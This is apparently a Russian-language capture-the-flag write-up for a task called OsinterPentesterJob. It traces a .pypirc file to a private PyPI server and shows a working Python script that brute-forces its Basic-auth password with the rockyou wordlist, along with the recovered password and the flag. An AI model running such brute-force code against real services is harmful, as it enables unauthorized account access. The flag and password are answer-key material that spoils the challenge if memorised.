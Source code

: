 # OsinterPentesterJob

Аккаунт гитхаба тот же что и в OsinterJob, поэтому нахождение этого аккаунта можно увидеть там. Нам интересен прежде всего файл `.pypirc`, в котором мы обнаруживаем url: http://185.4.73.35:8080/
Заходя на него видим обычный pypi сервер хранения пакетов, но вот проблема, чтобы получить пакет рута нужен пароль (логин прописан в `.pypirc`). Тогда ни найдя ничего другого примемся брутфорсить пароль. Ниже представлен успешный код брутфорса:
```python
import requests as r
import base64

rockyou = open('rockyou.txt', 'rb').read().decode('shift-jis', 'ignore').split('\n')

url = "http://185.4.73.35:8080/packages/simple-backend-app/simple-backend-app-0.0.1.tar.gz"
username = "admin"
password = ""
auth = lambda x, y: base64.b64encode("{}:{}".format(x,y).encode()).decode()

col = 0
for password in rockyou:
    ans = r.post(url, headers={'Authorization': 'Basic {}'.format(auth(username, password))})
    if ans.status_code == 200:
        print('Password is',password)
        exit()
    col += 1
    if col % 100 == 0:
        print(col, 'passwords bruted')
```
После чего получаем вывод: `Password is welcome`
Качаем архив и в файле setup.py нас встречает флаг.

Flag: `CYBERTHON{Lea3n_PyT0n_PacKa41ng}`
